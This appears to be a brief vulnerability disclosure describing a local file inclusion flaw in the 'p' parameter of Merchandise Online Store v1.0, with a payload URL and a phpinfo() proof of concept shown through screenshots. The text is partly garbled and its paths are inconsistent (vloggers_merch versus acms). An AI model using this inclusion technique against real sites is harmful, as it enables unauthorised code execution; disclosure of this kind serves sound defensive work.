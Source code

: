 # Merchandise Online Store v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: ip/vloggers_merch/?p=

Vulnerability location: ip/vloggers_merch/?p=, p

Payload: ip/vloggers_merch/?p=shell

![image](https://user-images.githubusercontent.com/54017627/166878620-1da1f581-2df1-4970-bb30-eb37e7d55c63.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/166878725-ca72883d-4400-414d-baf9-421238f3b873.png)

And visit http://ip/acms/?p=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/166878691-cdc9a38f-a23c-43f8-9b94-83a64f66ed6e.png)
